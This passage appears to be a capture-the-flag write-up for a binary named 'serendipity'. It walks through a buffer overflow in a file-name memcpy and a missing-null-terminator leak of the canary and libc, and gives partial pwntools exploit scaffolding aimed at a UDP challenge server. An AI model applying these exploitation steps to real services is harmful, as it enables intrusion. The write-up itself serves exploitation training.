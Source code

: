 ```cpp
memset(&s, 0, 0x110uLL);
memset(dest, 0, 0x100uLL);
memset(ptr, 0, 0x100uLL);
read(p0[2 * v7], buf, 0x1000uLL);
s = buf->session;
type = buf->type;
size = buf->size;
memcpy(v14, buf->file_name, size);
memcpy(dest, "./files/", sizeof(dest));

```

However, the `v14` has only 258 bytes, so we can easily perform overflow.

```cpp
fread(ptr, 0x100uLL, 1uLL, stream);
memset(&v8[1].sa_data[2], 0, 0x200uLL);
v4 = strlen(ptr);
strncpy(&v8[1].sa_data[2], ptr, v4);
v5 = strlen(&v8[1].sa_data[2]);
send_to(v8, (__int64)&v8[1].sa_data[2], v5);
fclose(stream);
```

The `fread()` function does not add a null byte at the end of a string, which means that we can make the `v4` variable larger than the capacity of the `ptr` variable. This creates a powerful read primitive that allows for easy setup to leak the canary and libc address.


```python
from pwn import *
if args.LOCAL:
    io=process('./serendipity_patched')
    if args.GDB:
        cmd="""
        init-pwndbg
        brva 0x0000000000002FD7
        """
        gdb.attach(io, cmd)
else:
    io=remote('157.245.147.89', 25201, typ="udp")
elf=context.binary=ELF('./serendipity_patched')
libc=ELF('./libc.so.6') 

io.interactive()                       
```

I use this code to easily debug and connect with a server using `nc -u 0 9981` on my local machine.

```python
from pwn import *
from ctypes import *
import socket 
from time import sleep 
import sys

libc=ELF('./libc.so.6')
glibc = cdll.LoadLibrary('libc.so.6')
#io=remote('157.245.147.89', 24210, typ="udp")
io=remote('0', 9981, typ='udp')

opcode=[0x301, 0x101, 0x201]

def printdata(size, data):
    pl=p32(0x70303070)
    pl+=p32(opcode[0])
    pl+=p16(size)
```